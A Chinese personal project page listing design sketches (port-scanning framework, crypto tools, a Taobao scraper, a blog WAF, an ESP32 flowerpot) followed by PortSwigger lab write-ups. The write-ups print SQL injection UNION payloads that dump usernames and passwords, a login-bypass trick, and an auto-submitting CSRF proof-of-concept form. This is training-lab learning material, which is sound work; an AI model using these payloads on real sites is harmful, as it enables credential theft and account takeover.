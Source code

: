 > 近期太忙没空更新博客，将就看下吧~

## 网安
1. [portswigger靶场经验杂谈](#portswigger靶场经验杂谈)

### 安全工具开发方向
1. [May I Help You 开发纪实](#may-i-help-you-开发纪实)
2. [个人博客版WAF思路](#个人博客版waf思路)

### 数据挖掘方向
1. [商业爬虫原型机构建思路](#商业爬虫原型机构建思路)


### 算法

### 物联网
1. [智能花盆观察平台](#智能花盆观察平台)


------
> ## May I Help You 开发纪实
2022年5月7日 定制化端口扫描框架思路

分为三个部分和一个核心：
- 核心是用来管理调度这三部分的程序
- 第一部分：
    - 通用端口
    - 特殊端口
- 第二部分：
    - 信息收集
    - 根据收集来的端口信息去各大网站上找漏洞和POC
    - 生成测绘图
        - 端口
        - 漏扫
        - 各大搜索引擎资料
- 第三部分 API：
    - http
    - RGP调试工具接入
    - 诱饵释放
        1. 真假ip
        2. 暴露白痴漏洞

2022年5月9日 密码学工具
1. 摩斯密码
2. base64定制版
3. md5加解密工具
4. rsa加解密工具

-------

> # 商业爬虫原型机构建思路
2021年3月8日 构建淘宝定向数据爬虫
1. 收集淘宝的指定词语的所有数据、重定向方式、拦截方式、各大框架绕过方式
2. 给收集到的信息分类（默认词云）
3. 给定向爬虫弄个线程池，可以get一个定向爬虫线程的方式获取爬虫

------

> # 个人博客版WAF思路
- 需求：集成化、省内存、高效、扩展强

- 核心思路：拦截一切看上去不正常的操作

- 扩展思路：
    1. 设置http tcp rpg 三种接口方式通过指令调用功能
    2. 配置一个基于RPG接口的debug客户端
    3. syslog收集日志
    4. 自带web界面，提供框架允许前端接入

-------

> # 智能花盆观察平台
由tcp接入本地云，一盆花一个esp32
- 硬件材料：
    1. esp32
    2. dis1802
    3. sht20
    4. 无线充电模块
    5. GY30
    6. 土壤养分传感器
- 需求：
    1. tcp接入本地云
    2. 可做节点服务器，可做单一节点
    3. 自带web报表
    4. 带RPC接口可接入本地云进行调试


> # portswigger靶场经验杂谈

## SQL注入

>> 靶场地址: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns
这题和第一题的注入点长得很像于是我就拿order by试了试，发现能报错
![SQL_INJECTION_UNION_NUMBER_COLUMNS](img\SQL_INJECTION_UNION_NUMBER_COLUMNS.png)
递减了下发现是三位的，然后就通关了

>> 靶场地址：https://portswigger.net/web-security/sql-injection/lab-login-bypass
发现几个疑似注入点：
https://acd31f741ee25a70c0a5287e00570021.web-security-academy.net/product?productId=2
https://acd31f741ee25a70c0a5287e00570021.web-security-academy.net/login
用脚本挨个试了后发现登录表单处可以注入：简单试了试字符型，eee --+ 发现居然能绕过登录。然后就通关了

>> 靶场： https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
根据页面提示，说这题和上一题很像。不过要找到包含文本的那一列。所以直接从上一个注入点接着弄
![sql_找可以显示文本的字段](img\sql_找可以显示文本的字段.png)
三个字段挨个试了一遍发现只有一个字段能显示文本，不能同时显示两个文本在页面看见多了一行：BEU8vZ 填入值后发现通关

>> 靶场：https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column
    这题和上一题目一样直接给了用户信息：
    ```text
    该数据库包含一个名为 的不同表users，其中的列名为username和password。
    为解决实验室问题，执行SQL 注入 UNION攻击，检索所有用户名和密码，并使用该信息以administrator用户身份登录。
    ```
    按照上一题的方法拿到了分成两个页面分别拿到了admin的账户和密码（这回只能输出一个了）（23bg3dp4cvn7mfhyja8j）
    结果居然登录不了？？？看了下官方的提示
    ```text
    使用 Burp Suite 拦截和修改设置产品类别过滤器的请求。
    确定查询返回的列数以及哪些列包含文本数据。验证查询是否返回两列，其中只有一列包含文本，在category参数中使用如下所示的有效负载：

    '+UNION+SELECT+NULL,'abc'--
    使用以下负载来检索users表的内容：

    '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
    验证应用程序的响应是否包含用户名和密码。
    ```
    原来||还可以用来输出啊，学到了。最后发现，不是方法的问题，我把密码看错了。

![SQL注入UNION 攻击在单个列中检索多个值](img/SQL%E6%B3%A8%E5%85%A5UNION%20%E6%94%BB%E5%87%BB%E5%9C%A8%E5%8D%95%E4%B8%AA%E5%88%97%E4%B8%AD%E6%A3%80%E7%B4%A2%E5%A4%9A%E4%B8%AA%E5%80%BC.png)

## CSRF
**CSRF，其中令牌验证取决于令牌是否存在**

>> 靶场地址：https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present

这个题做法和前面的类似，不过题目已经泄露了。直接把csrf参数给删了就能过了

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acbc1fe61f83437ec02767c300c50018.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="323r&#64;normal&#45;user&#46;net" />
      <script>
    document.forms[0].submit();
</script>
    </form>
  </body>
</html>
```